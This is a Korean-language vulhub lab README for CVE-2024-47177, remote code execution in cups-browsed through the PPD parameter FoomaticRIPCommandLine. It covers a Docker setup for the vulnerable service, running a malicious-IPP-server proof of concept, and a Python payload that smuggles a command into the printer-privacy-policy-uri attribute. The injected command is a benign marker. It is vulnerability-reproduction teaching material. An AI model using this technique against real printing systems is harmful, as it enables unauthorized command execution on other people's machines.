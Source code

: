 # OpenPrinting Cups-Browsed - FoomaticRIPCommandLine PPD 매개변수를 통한 원격 코드 실행 (CVE-2024-47177)

> 화이트햇 스쿨 3기 - [신현서 (@borichayam)](https://github.com/borichayam)

[Einglish version](https://github.com/vulhub/vulhub/blob/master/cups-browsed/CVE-2024-47177/README.md)
[Chinese version](https://github.com/vulhub/vulhub/blob/master/cups-browsed/CVE-2024-47177/README.zh-cn.md)

OpenPrinting CUPS(Common Unix Printing System)은 유닉스 계열 운영체제를 위해 개발된 오픈 소스 인쇄 시스템이다. CUPS를 이용하면 컴퓨터를 프린터 서버로 작동시켜 로컬 및 네트워크 프린터를 효율적으로 관리할 수 있다. cups-browsed는 CUPS 시스템의 일부인 데몬으로, 네트워크 상 다른 CUPS 서버에서 공유하는 프린터를 자동으로 탐색하고 설정하는 기능을 담당한다. 이를 통해 사용자는 수동 설정 없이도 네트워크 프린터를 쉽게 사용할 수 있다.

cups-browsed 2.0.1 버전 및 그 이전 버전에는, PPD(PostScript Printer Description) 파일 내 `FoomaticRIPCommandLine` 매개변수를 부적절하게 처리하는 문제점이 존재한다. 공격자는 악성 IPP(Internet Printing Protocol) 서버를 구축하여, 취약한 cups-browsed 인스턴스에 조작된 프린터 정보를 전달함으로써 대상 시스템에서 임의 명령어를 실행할 수 있다.

참고 자료 :

- https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/
- https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8

## 취약한 환경 구축

다음 명령어를 실행하여 CUPS 서버 2.4.7 버전과 취약한 cups-browsed 2.0.1을 실행할 수 있다:

```
docker-compose up -d
```

서버가 실행되면, 브라우저를 통해 `http://<your-ip>:631` 주소로 접속해 CUPS 웹 인터페이스에 접근할 수 있다.

## 익스플로잇 방법

먼저, [evil-ipp-server](https://github.com/vulhub/evil-ipp-server) 프로젝트를 다운받고 [poc.py](https://github.com/vulhub/evil-ipp-server/blob/master/poc.py)를 실행한다:

```
python poc.py [evil-ipp-server-ip] [target-ip]
```

이 스크립트는 `[evil-ipp-server-ip]` 주소에서 악성 IPP 서버를 구동하고, IP가 `[target-ip]`인 대상 시스템의 cups-browsed 데몬에 UDP 패킷을 전송한다.

대상 cups-browsed가 요청을 수신하면 악성 IPP 서버에 연결을 시도한다. 이때 IPP 서버는 조작된 `printer-privacy-policy-uri` 속성을 포함해 응답을 보낸다. 페이로드 구조는 다음과 같다:

```python
(
    SectionEnum.printer,
    b'printer-privacy-policy-uri',
    TagEnum.uri
): [b'https://www.google.com/"\n*FoomaticRIPCommandLine: "' +
    b'echo 1 > /tmp/I_AM_VULNERABLE' +
    b'"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'],
```

이후 cups-browsed는 `/tmp/` 디렉토리에 임시 PPD 파일을 생성하는데, 위 페이로드가 이 파일에 주입된다. 아래 스크린샷은 cups-browsed의 관련 로그를 보여준다:

![](1.png)

하지만 이 시점에서는 명령어가 아직 실행되지 않았다. 명령어가 실제로 실행되려면, 프린트 작업이 최소 1건 이상 발생해야 한다.

프린트 작업은 일반 사용자 또는 공격자 모두 발생시킬 수 있다. 만약 대상 시스템의 TCP 631번 포트가 열려 있다면, 브라우저를 통해 CUPS 웹 인터페이스에 접속해 악성 IPP 서버로 등록된 프린터를 선택할 수 있다. 그 후, "테스트 페이지 인쇄" 작업을 생성하면 된다 :

![](2.png)

이 과정을 완료하면, `echo 1 > /tmp/I_AM_VULNERABLE` 명령어가 정상적으로 실행되어 /tmp/ 디렉토리에 I_AM_VULNERABLE 파일이 생성된다.

![](3.png)
